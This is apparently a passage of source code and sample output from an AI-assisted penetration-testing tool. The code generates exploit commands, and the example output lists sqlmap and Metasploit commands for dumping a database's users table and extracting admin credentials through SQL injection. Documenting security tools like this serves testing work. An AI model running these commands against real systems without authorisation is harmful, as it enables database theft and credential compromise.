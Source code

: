 ```typescript
      manualCommands: this.generateManualCommands(exploits),
      remediation: this.generateRemediation(vuln)
    };
  }

  private generateManualCommands(exploits: Exploit[]): string[] {
    return exploits.map(exploit => {
      if (exploit.tool === 'metasploit') {
        return `msfconsole -x "use ${exploit.module}; set RHOSTS target; run"`;
      } else if (exploit.tool === 'sqlmap') {
        return `sqlmap -u "${exploit.target}" --batch --dump`;
      } else {
        return exploit.command;
      }
    });
  }
}
```

**Example Output:**

```bash
$ cyber-claude webscan https://example.com

Finding: SQL Injection at /api/search?q=

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Exploit Intelligence (AI-Powered)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Vulnerability: SQL Injection (Blind, Time-Based)
CVE: CWE-89 (SQL Injection)
CVSS Score: 9.8 (Critical)

[Known Exploits]

1. SQLmap (Automatic)
   Tool: sqlmap
   Reliability: Excellent
   Stealth: Low (generates many requests)

   Command:
   sqlmap -u "https://example.com/api/search?q=*" \\
          --batch --level=5 --risk=3 \\
          --dump -D database_name -T users

   Expected Result: Database extraction, admin credentials

2. Metasploit Module
   Module: auxiliary/scanner/http/sql_injection
   Reliability: Good
   Stealth: Medium

   Command:
   msfconsole -x "use auxiliary/scanner/http/sql_injection; \\
                  set RHOSTS example.com; \\
                  set TARGETURI /api/search; \\
                  set DATA q=INJECT_HERE; \\
                  run"

3. Manual Exploitation
   Technique: Blind time-based SQL injection
   Difficulty: Medium (requires SQL knowledge)

```